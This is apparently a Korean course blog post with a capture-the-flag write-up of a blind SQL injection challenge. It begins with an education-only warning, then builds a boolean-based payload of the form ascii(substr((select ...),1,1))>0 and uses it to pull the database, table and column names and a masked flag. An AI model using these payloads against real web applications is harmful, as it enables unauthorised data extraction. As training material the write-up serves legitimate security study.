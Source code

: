 ```yaml
---
layout: single
title:  "8 주차 SQL injection 데이터 추출 문제 풀이(2)"
categories: SQL-injection
typora-root-url: ..\
author_profile: false
---
```


<br>

# <span style="background:#000000; color:#ffffff">1. 8 주차 SQL injection 데이터 추출 문제 풀이(2)</span>

<br><span style='font-weight:bold; font-size:15px'> ※ 주의 사항 :</span>   

<span style='font-weight:bold; font-size:15px'>1. 교육 목적으로만 이용 해주세요.</span><br>
<span style='font-weight:bold; font-size:15px'>2. 무단 침입, 데이터 유출, 개인 정보 침해 등 불법적인 활동은 심각한 법적 결과를 초래할 수 있습니다.</span><br>
<span style='font-weight:bold; font-size:15px'>3.  개인적인 테스트 환경을 구축해서 실습하시길 바랍니다. </span>

<br>

## <span style="background:#696969; color:#ffffff">1.1  SQLi Point 2 문제 </span>

<br>

<img src="/images/2024-06-09-SQLinjection26/image-20240612204234463.png" alt="image-20240612204234463" style="zoom:67%;" />

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.1 sql injection 포인트 찾기</span>

***

<br>

마이페이지와 게시판이 존재합니다. 

<img src="/images/2024-06-09-SQLinjection26/image-20240612204423453.png" alt="image-20240612204423453" style="zoom: 67%;" />

<img src="/images/2024-06-09-SQLinjection26/image-20240612204359138.png" alt="image-20240612204359138" style="zoom:67%;" />



![image-20240612204614693](/images/2024-06-09-SQLinjection26/image-20240612204614693.png)

![image-20240612205028717](/images/2024-06-09-SQLinjection26/image-20240612205028717.png)

![image-20240612205055104](/images/2024-06-09-SQLinjection26/image-20240612205055104.png)

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.2  select 문구가 사용가능한 지 체크</span>

***

<br>

<img src="/images/2024-06-09-SQLinjection26/image-20240612205154382.png" alt="image-20240612205154382" style="zoom:67%;" />

![image-20240612205214639](/images/2024-06-09-SQLinjection26/image-20240612205214639.png)





<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.3 공격 format 만들기</span>

***

<br>

(ascii(substr((select ~~),1,1))>0) and username

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.4 DB이름 확인하기</span>

***

<br>

(ascii(substr((select database() limit 0,1),1,1))>0) and username

![image-20240612205441694](/images/2024-06-09-SQLinjection26/image-20240612205441694.png)

sqli_7

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.5 table이름 확인하기</span>

***

<br>

select table_name from information_schema.tables where table_schema='sqli_7' limit 0,1

(ascii(substr((select table_name from information_schema.tables where table_schema='sqli_7' limit 0,1),1,1))>0) and username

![image-20240612205643107](/images/2024-06-09-SQLinjection26/image-20240612205643107.png)

flagTable

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.6 column 이름 확인하기</span>

***

<br>

select column_name from information_schema.columns where table_name='flagTable' limit 0,1

(ascii(substr((select column_name from information_schema.columns where table_name='flagTable' limit 0,1),1,1))>0) and username

![image-20240612205852379](/images/2024-06-09-SQLinjection26/image-20240612205852379.png)

flag

<br>

#### <span style="background:#A9A9A9; color:#ffffff">1.1.7 data 추출하기</span>

***

<br>

select flag from flagTable limit 0,1 

(ascii(substr((select flag from flagTable limit 0,1),1,1)>0) and username

f~~

w~~

![image-20240612223150754](/images/2024-06-09-SQLinjection26/image-20240612223150754.png)

segfault{~~}

